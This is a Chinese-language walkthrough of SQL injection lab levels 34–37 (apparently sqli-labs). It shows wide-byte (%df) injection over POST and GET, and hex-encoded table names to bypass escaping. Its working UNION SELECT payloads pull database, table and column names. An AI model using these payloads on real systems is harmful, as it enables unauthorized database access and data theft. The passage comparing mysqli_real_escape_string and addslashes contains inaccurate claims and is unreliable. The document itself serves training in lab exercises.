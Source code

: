 # 34-37
## 第三十四关
该关和前面相同都是宽字节注入，不过该关改成了POST类型
抓包改即可，在输入框中进行输入会对数据进行url编码，如果输入数据本身就是url编码，就会二次编码，导致注入失败
```
uname=1%df%27%20order%20by%203#
uname=1%df%27union%20select%201,database()#

```
## 第三十五关
通过查看源码发现，该关为数字型注入，但是会转义特殊字符，在后续爆表名是会有影响，将表名转成十六进制即可绕过
```
?id=1%20order%20by%204
?id=1111 union select 1,database(),3
?id=1111 union select 1,(select group_concat(table_name)from information_schema.tables where table_schema=database()),3
?id=1111%20union%20select%201,(select%20group_concat(column_name)from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=0x7573657273),3
```
## 第三十六关
通过查看源码发现，该关使用`mysqli_real_escape_string`来转义字符，同样是使用GBK编码连接数据库，同样会造成宽字节注入。

mysqli_real_escape_string和addslashes都是用于在将数据插入到数据库之前对字符串进行转义的函数，以防止SQL注入攻击。它们的区别在于以下几点：

1. 函数的使用方式：
   - mysqli_real_escape_string是MySQLi扩展提供的函数，用于在插入或更新数据库之前对字符串进行转义。它需要一个数据库连接对象作为第一个参数，并且只能用于转义字符串。
   - addslashes是PHP的内置函数，用于对字符串中的特殊字符进行转义。它只需要一个字符串作为参数，并且可以用于转义字符串、数组和对象。
2. 转义的范围：
   - mysqli_real_escape_string只会转义SQL语句中的特殊字符，如引号、反斜杠等。它会根据当前连接的字符集来确定需要转义的字符。
   - addslashes会转义一些特殊字符，如引号、反斜杠等，以及ASCII码值在1-31之间的控制字符。它不会根据字符集来确定需要转义的字符。
3. 转义的安全性：
   - mysqli_real_escape_string是针对特定数据库的转义函数，它会根据数据库的规则来转义字符串，以确保转义后的字符串在SQL语句中是安全的。
   - addslashes是一个通用的转义函数，它只是简单地在特殊字符前面添加一个反斜杠。虽然它可以用于防止SQL注入攻击，但在某些情况下可能会存在安全问题。
综上所述，如果你正在使用MySQL数据库，并且有一个可用的数据库连接对象，那么推荐使用mysqli_real_escape_string函数来对字符串进行转义。如果你只是简单地需要转义一些特殊字符，而不涉及数据库操作，那么可以使用addslashes函数

使用宽字节注入即可
```
?id=1%df%27order%20by%204--+
?id=1111%df%27union select 1,database(),3--+
```
## 第三十七关
该关和上一关一样，都使用`mysqli_real_escape_string`来个转义，不过使用POST方式传输数据
抓包，使用union注入即可：
```
uname=1%df%27order%20by%203#
uname=1111%df%27union%20select%201,database()#
```
